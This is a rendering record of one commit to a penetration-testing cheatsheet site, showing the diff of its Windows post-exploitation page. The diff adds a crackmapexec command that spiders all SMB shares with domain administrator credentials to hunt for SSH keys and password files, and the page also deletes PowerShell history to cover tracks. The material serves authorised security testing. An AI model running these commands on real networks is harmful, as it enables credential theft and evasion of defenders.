

Before and after one commit to trojand/cheatsheet, an MkDocs documentation site: the page built from docs/Windows/Post_Exploitation.md, in a window 1280 px wide and 900 px high, scrolled down 2068 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 2517 px from its top, so only the background shows below that.

Commit message:
Update Post_Exploitation.md

````diff
--- a/docs/Windows/Post_Exploitation.md
+++ b/docs/Windows/Post_Exploitation.md
@@ -85,7 +85,19 @@ Useful if AV cannot be disabled and does not block procdump.exe
     ```powershell
     del C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
     ```
+---
+## Looking for files in the Domain
+* Useful when escalating from a domain compromise to a full network or infrastructure compromise by looking for sensitive files such as:
+    * ssh keys
+    * password files
+    * password manager DBs
+* spider = "*" to spider all shares per host
+* long list of `--exclude-dirs` to avoid scanning in the ADMIN$ or Windows folder and concentrate on other folders.
+* Edit the `--pattern` for more filename patterns
 
+```bash
+crackmapexec smb -d acme.corp -u administrator -p "P@ssw0rd" --spider "*" --exclude-dirs "addins,ADFS,appcompat,apppatch,AppReadiness,assembly,bcastdvr,Boot,Branding,CbsTemp,Cluster,Containers,CSC,Cursors,debug,diagnostics,DiagTrack,DigitalLocker,dot3svc,Downloaded Program Files,drivers,en-US,Fonts,GameBarPresenceWriter,Globalization,Help,IdentityCRL,IME,ImmersiveControlPanel,INF,InputMethod,Installer,L2Schemas,LiveKernelReports,Logs,Media,Microsoft.NET,Migration,Minidump,ModemLogs,OCR,Offline Web Pages,Panther,Performance,PLA,PolicyDefinitions,Prefetch,PrintDialog,Program Files,Program Files (x86),Provisioning,Registration,RemotePackages,rescache,Resources,SchCache,schemas,security,ServiceProfiles,ServiceState,servicing,Setup,ShellComponents,ShellExperiences,SKB,SoftwareDistribution,Speech,Speech_OneCore,System,System32,SystemApps,SystemResources,SysWOW64,TAPI,Tasks,Temp,tracing,twain_32,Vss,WaaS,Web,Windows,WinSxS,wlansvc" --pattern passw ssh username id_rsa id_ed25519 .pub  --only-files ~/Scope/all.txt 1>>1.txt
+```
 
 [^1]: [Pure Security](https://pure.security/dumping-windows-credentials/)
 [^2]: [c0d3xpl0it](https://www.c0d3xpl0it.com/2016/10/dumping-ntdsdit-file-from-active-directory.html)
````
